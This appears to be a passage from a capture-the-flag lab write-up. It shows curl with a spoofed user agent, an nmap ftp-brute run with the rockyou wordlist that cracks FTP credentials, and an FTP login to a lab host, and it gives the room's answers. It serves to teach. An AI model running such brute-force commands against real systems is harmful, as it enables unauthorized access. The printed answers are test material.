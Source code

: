 
### What is the agent name?
- **Answer:** chris
- **Steps to Reproduce:**
    - Use curl with the following options
        - `A` - User agent (The value of user agent must be `C` as mentioned in the Hint)
        - `L` - Follow redirects

```bash
$ curl -LA C http://10.10.124.244/
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

---

## Hash cracking and brute-force

### FTP password
- **Answer:** crystal
- **Steps to Reproduce:** 

- Use `nmap` or `hydra`:

```bash
$ nmap --script ftp-brute --script-args userdb=users.txt,passdb=/usr/share/wordlists/rockyou.txt -p 21 -oN ftp-brute.out 10.10.124.244
Nmap scan report for 10.10.124.244
Host is up (0.17s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     chris:crystal - Valid credentials
|_  Statistics: Performed 261 guesses in 174 seconds, average tps: 2.5

# Nmap done at Tue Jun 15 14:41:53 2021 -- 1 IP address (1 host up) scanned in 200.60 seconds
```

- Download all the files accessible via FTP:

```bash
$ ftp 10.10.124.244
Connected to 10.10.124.244.
220 (vsFTPd 3.0.3)
Name (10.10.124.244:root): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```
